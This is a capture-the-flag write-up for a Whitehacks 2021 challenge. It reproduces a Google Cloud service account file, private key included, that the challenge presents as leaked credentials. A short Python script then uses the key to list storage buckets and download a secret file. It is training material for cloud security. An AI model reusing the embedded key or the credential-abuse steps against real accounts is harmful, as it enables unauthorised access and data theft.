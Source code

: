 # An unhappy employee

## Description

CTF: Whitehacks 2021

Fred Chee Hong Kat, a developer for Bug Bug Dev Ptd. Ltd, is a disgruntled employee with poor security hygiene! He has been flagged multiple times for poor password practices! Now, it finally hits him! Our threat intelligence feed discovered a set of leaked credentials available on the Dark Web. Can you help us investigate the matter? We need to know if our company's secrets are compromised!

<br />
<a href="/files/whitehacks-2021/creds.json" download>
  creds.json
</a>

## Solution

_Solved by [@teamfreestuff](https://github.com/teamfreestuff)_

A JSON file with credentials to a **Google Cloud service account** is provided.

```json
{
  "type": "service_account",
  "project_id": "whitehacks-csg-2021",
  "private_key_id": "7bdfb6adba76a4dbcd9b5fee23bf24fb60512e30",
  "private_key": "-----BEGIN PRIVATE KEY-----\nMIIEvQIBADANBgkqhkiG9w0BAQEFAASCBKcwggSjAgEAAoIBAQCqGwhc9YNpgTV6\nLNycfDn6yQ0JTErW/MrZEy13HrxKk70mpNWCos3sfj3gTmYpQuC3Fq4zCY29RYQF\nqWCMABr0+oNdt4qgfgvwlRMljM4LWbu2SDh2v+/r7Ho7/SoDT4V4iZHve+eJEdr+\nCuV6Oioi8ovrD2DNhS1vwXvqOMnSG3xGZpJlgdbgPdZy3vs090wsJOJzcBgHq1sw\nYL+SDYYrxsKmAfHsmRaLBOOLdNqtBCLXSs9MtR05vdJClWKAYBdPOO/c/WNJs0dL\nhEDQkjsIjDHMlnu6KSwsrGuITthSE8gAAfhEr/FvdRRIRLPPtQgDxnc+vGSLthWQ\n9R0erD4jAgMBAAECggEAAP98mpMELNvJtQhLWQ2vh2WjknDkpYNBK2nd4+uFvkhE\nnVPtPsF2xNLuyQCcv9Q5HknfRsRhFQGx5xiZzOh5QAOyPpwDj7J9nnE5dghv8wgZ\nPlYJIsU4gqFWDEENfIx8Y3snJIkNEDRPHRtyQjfSJHdY0824yyvjWtr/P54KrRVi\nv0uVKb3StrWmE22vJdfcE9S/2lLFOEK1UeZB7mv3Dz96qG/j0nddjFZRCWiyWdnt\ntnovdRrbIltg9M2b1D53MvGuB+IrUxo4m2XAuL9DAAq/tj+eAqy0GpyXeMisGHDI\nDHEnPB/N50UQkVH5EtTjByyVHCrz09Xvqjt9nmQWlQKBgQDaLfkLOMqn38o4L9vf\n3lJE2fwmDlLwuNQIDBMobd070FOcdPZ3U1k/XpsTqykan4Q+ld6FzMb0JANaD532\ntnPWMfmipkbLYAEPtLeMPFMd2f00z9yzBbfJz+CtLfFKCX2QTB6wJ5y7tSao4OvW\n3YL5Y+Nw2tkor/6tRd65WEQT7wKBgQDHl7V2UFhWQx+JkhG0HwudVPAFQGmxG59Y\nEEcLiXWLy/G2udW1nh41P8/DaKEh5LMdk7eQ4ULkCGdecddf5wWXunTqTOJlzAmh\nX0x1qTr0Xaod8i/KgghV1ddW52tI9xu3uGn9Br6iiWQqkJmEMSPV/bDmmRwpsJjH\nuSx11JV1DQKBgQCwrBuH38QS7l/k4bRNcszxngbVljHJZhGkNoro6RYF0mtyPTA7\nbg3OB8DRy37sZRGEUH2xoSHWHrdsHUtPtWzVnQBFmhmnpCUX38Hl2A+CE7w7ILrZ\naJ7r195aveIujsLTryAGiv0a7tTQWdn/0r21TxKkl0LT9Lfo/bQeKABwlwKBgFZP\nMFU9YTXMSPMAi09MrYUXmcNrm0jPHRTD1TUT+BS/2IKf0d57xaxZL8rcj/FMKHh9\nzD+GaZqaV7jrmasLB8wZAT3giXZjyTZTM4kd6TSK3GmetTPpDxmvIzOdVzNySDYm\nNQ8Jv54hs4MEjJ4xccGztq/BPgB5MVgMp0E88HRxAoGAJoaIv410ekQoaVX9L8Rl\no6ZjWD6GTMT6Uw2VSIdBg0pP23RIIheWj5M8g8YMPvelyAOZBS8L9Z2rZbgzZ9PJ\nHSMTVuGVmj/Ygz5axYTQUDUyqZavO6ILcdlfXhe1Ycf/nfCyFcM0yS1vkNvFvYbX\nqxBm8Zs13zFUFhF5+0jkhFE=\n-----END PRIVATE KEY-----\n",
  "client_email": "fredchkmsa@whitehacks-csg-2021.iam.gserviceaccount.com",
  "client_id": "106171336443241412522",
  "auth_uri": "https://accounts.google.com/o/oauth2/auth",
  "token_uri": "https://oauth2.googleapis.com/token",
  "auth_provider_x509_cert_url": "https://www.googleapis.com/oauth2/v1/certs",
  "client_x509_cert_url": "https://www.googleapis.com/robot/v1/metadata/x509/fredchkmsa%40whitehacks-csg-2021.iam.gserviceaccount.com"
}
```

We can use the python library [`google-cloud-storage`](https://pypi.org/project/google-cloud-storage/) to check if there is anything on **Cloud Storage** accessible by the service account.

```python
from google.cloud import storage

storage_client = storage.Client.from_service_account_json("creds.json")

buckets = list(storage_client.list_buckets())
print(buckets)  # There's a bucket called "fred_chkn".

blobs = list(storage_client.list_blobs("fred_chkn"))
print(blobs)  # There's a blob called "secret.txt"

# Download the blob
storage_client.bucket("fred_chkn").blob("secret.txt").download_to_filename("flag.txt")
```

The flag can be found inside the downloaded blob.

`WH2021{ea$y_Cl0uD_Ch@ll3ng3}`
